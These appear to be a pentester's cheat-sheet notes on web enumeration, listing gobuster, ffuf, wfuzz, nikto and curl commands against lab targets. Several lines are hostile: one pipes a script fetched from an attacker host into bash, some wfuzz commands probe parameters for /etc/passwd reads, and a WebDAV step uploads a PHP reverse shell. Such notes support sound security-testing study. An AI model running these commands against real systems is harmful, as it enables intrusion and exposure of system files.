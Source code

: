```
echo -ne "GET / HTTP/1.1\r\nHost: google.com\r\nConnection: close\r\n\r\n"
```

![](Pasted%20image%2020230923182239.png)

```
GET / HTTP/1.1\r\n
Host: google.com\r\n
Connection: close\r\n\r\n
```

```
\r (carriage return or 0x0d)
\n (new line or 0x0a)
```

```
nikto -h url
```

dirbuster
gobuster
feroxbuster

```
searchsploit mod ssl 2
```

```
dirb url
```

```
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt:FUZZ -u url/FUZZ
```

```
gobuster dir -u 192.168.50.20 -w /usr/share/wordlists/dirb/common.txt -t
5
```

```
gobuster dir -u http://192.168.50.16:5002 -w /usr/share/wordlists/dirb/big.txt -p pattern
```

```
gobuster dir -u http://192.168.50.16:5002/users/v1/admin/ -w
/usr/share/wordlists/dirb/small.txt
```

```
gobuster dir -u http://192.168.50.242 -w /usr/share/wordlists/dirb/common.txt -o mailsrv1/gobuster -x txt,pdf,config
```

```
gobuster dir -w /usr/share/wordlists/dirb/big.txt --url http://academy.htb/ -x .php, .txt -o gobuster-result.txt
```

```
gobuster dir -w /usr/share/seclists/Discovery/Web-Content/raft-small-words.txt -x php -u http://academy.htb -o gobuster-dir-root.log
```

```
gobuster dir -u http://$IP -w /usr/share/dirb/wordlists/common.txt | tee enum/gobuster-dir-p80.log
```

```
gobuster vhost -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u http://academy.htb -o gobuster-vhost-sub.txt
```

```
grep \.git /usr/share/seclists/Discovery/Web-Content/raft-small-words.txt
```

![](Pasted%20image%2020231014122728.png)

```
curl -v 'url' -X POST --data '<key><value>>please</value></key>\n' -H 'Content-Type:application/xml'
```

```
curl -v 'url' -X POST --data '{"key": "please"}' -H 'Content-Type:application/json' --trace-ascii -
```

```
curl -v 'url' -X POST --data 'key: please' -H 'Content-Type:application/yaml' --trace-ascii -
```

```
curl attackerIP:8000/linpeas.sh | bash
```

```
python3 -m http.server
```

https://book.hacktricks.xyz/pentesting-web/web-tool-wfuzz

```
wfuzz -u http://192.168.237.104/file.php?FUZZ=/etc/passwd --hw 14 -w /usr/share/wordlists/dirb/big.txt
```

```
wfuzz -u http://192.168.237.104/file.php?FUZZ=/etc/passwd --hw 14 -w /usr/share/wordlists/dirb/big.txt
```

### Directory & Files Bruteforce

*Filter by whitelisting codes*

```
wfuzz -c -z file,/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --sc 200,202,204,301,302,307,403 http://example.com/uploads/FUZZ
```

```
wfuzz -c -z file,/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --hc 404 http://vulnerable.site/FUZZ
```

```
cadaver http://ip/directory/

put /var/www/html/php-reverse-shell.php
```

```

```